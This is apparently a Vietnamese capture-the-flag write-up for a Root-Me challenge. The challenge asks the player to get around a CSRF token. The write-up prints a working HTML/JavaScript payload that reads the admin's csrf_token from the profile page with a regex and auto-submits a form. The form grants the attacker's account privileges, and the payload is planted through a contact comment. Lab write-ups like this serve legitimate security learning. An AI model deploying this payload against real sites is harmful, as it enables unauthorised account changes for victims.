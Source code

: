 Ok dựa vào tiêu đề có thể thấy chall này là nâng cấp của chall `CSRF-0-protection`, để ý trong input form của tab `profile` còn có thêm 1 thẻ input nữa chứa giá trị của `csrf_token`. Tìm hiểu thì biết `csrf_token` chính là 1 cách để ngăn chặn tấn công CSRF, bằng cách kiểm tra xem request có giá trị `csrf_token` hợp lệ không, vì vậy chỉ lợi dụng cookies của `admin` thôi là chưa đủ. Ta cần viết 1 đoạn script để lấy cắp cả cái token đó nữa, code như sau: 

```html
<html>
    <form action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" name="csrf_form" enctype="multipart/form-data">
        <input id="username" type="text" name="username" value="dang">
        <input id="status" type="checkbox" name="status" checked >
        <input id="token" type="hidden" name="token" value="" />
        <button type="submit">Submit</button>
</form>

<script>
        xhttp = new XMLHttpRequest();
        xhttp.open("GET", "http://challenge01.root-me.org/web-client/ch23/?action=profile", false);
        xhttp.send();

        token_admin = (xhttp.responseText.match(/[abcdef0123456789]{32}/));
        document.getElementById('token').setAttribute('value', token_admin)
        document.csrf_form.submit();
</script>
</html>
```

Ở đây tìm ra csrf_token bằng regex. Gửi form trên trong ô Comment của phần Contact, đợi 2p vào tab Private ta sẽ có password